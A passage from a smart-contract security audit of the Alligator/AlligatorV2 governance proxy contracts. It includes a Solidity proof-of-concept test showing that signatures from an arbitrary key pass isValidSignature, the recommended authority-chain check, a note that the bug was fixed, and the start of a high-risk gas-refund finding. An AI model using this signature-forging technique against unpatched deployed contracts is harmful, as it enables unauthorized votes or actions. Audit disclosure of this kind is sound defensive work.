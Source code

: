 **Proof of Concept**

Here is a test that can be dropped into `AlligatorV2.t.sol` to show this attack.

```solidity
import {ECDSA} from "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

function testZach__SigningBug() public {
    // create an address from private key = 0x01 that should have no authority
    uint PRIVATE_KEY = 1;
    address signer = vm.addr(PRIVATE_KEY);

    // sign any message with that private key
    bytes32 hash = keccak256(abi.encodePacked("i can make you sign anything"));
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(PRIVATE_KEY, hash);
    bytes memory signature = abi.encodePacked(r, s, v);

    // set the authority chain to be only my own address
    address[] memory authority = new address[](1);
    authority[0] = signer;

    // create the signature data, which consists of authority chain and signature
    bytes memory digest = abi.encode(authority, signature);

    // confirm that the proxy will accept the signature
    assertEq(IERC1271(root).isValidSignature(hash, digest), IERC1271.isValidSignature.selector);
}
```

**Recommendation**

There should be a check in `isValidProxySignature()` to confirm that the authority chain is valid. This can be accomplished by checking that:

```solidity
if (proxy != proxyAddress(authority[0], proxyRules)) revert InvalidAuthorityChain;
```

**Review**

Fixed as suggested in both `AlligatorV2.sol` and `Alligator.sol` in PR #14.

## High Risk

### [H-01] Alligator gives gas refunds but does not receive gas refunds

The `AlligatorV2.sol` contract has a function `castRefundableVotesWithReasonBatched()` which tracks the gas used and provides a refund to the user. This mirrors the functionality used by `NounsLogicV2` to provide voting refunds.

However, while Alligator can provide refunds, there's no way for it to be refunded by the underlying DAO. This is because Nouns (for example) requires a call to `castRefundableVote()` in order to provide a refund, but Alligator simply calls `castVotesWithReasonBatched()` which calls `Nouns.castVoteWithReason()`:
